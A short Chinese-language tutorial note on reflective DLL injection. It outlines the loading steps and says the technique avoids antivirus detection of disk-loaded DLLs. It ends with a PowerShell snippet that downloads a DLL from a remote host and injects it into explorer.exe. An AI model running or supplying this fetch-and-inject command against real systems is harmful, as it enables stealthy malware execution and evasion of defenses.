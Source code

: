 ## Reflective DLL Injection Theory

参考： https://bbs.pediy.com/thread-224143.htm
https://bbs.pediy.com/thread-224241.htm
https://github.com/stephenfewer/ReflectiveDLLInjection

原理：
这里只说注射器实现的功能：在目标进程开辟空间，将Payload写到开辟的空间去，最后调用DLL中的反射加载函数。

步骤：
- 获取目标进程PEB，从而获取一些需要用到的函数地址，如：VirtualAlloc。
- 复制PE头，由于PE头的形态并没有像节一样需要展开，所以为复制。
- 解析PE头，并加载节，与2不一样的是，这里用的是加载，到了节这里，已经在PE头中的信息指定了RVA，所以这里要进行“加载”。
- 处理导入表，获取导入函数的地址。
- 处理重定位表，由于基址和默认的加载地址不同，所以需要修改重定位表，否则，程序内的直接寻址会出问题。
- 调用镜像入口点，到这里，镜像已经加载完毕。

上一章提到用LoadLibrary 从硬盘上加载Dll文件，设置合适的权限，再注册该dll使其能让win32 api如GetProcAddress进行调用，但是这操作会被防病毒软件或ProcessExplorer发现。

## Reflective DLL Injection By Powershell

```powershell
$bytes=(New-Object System.Net.WebClient).DownloadData('http://192.168.49.96:8000/5_2.dll')
$procid = (Get-Process -Name explorer).Id
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid

```

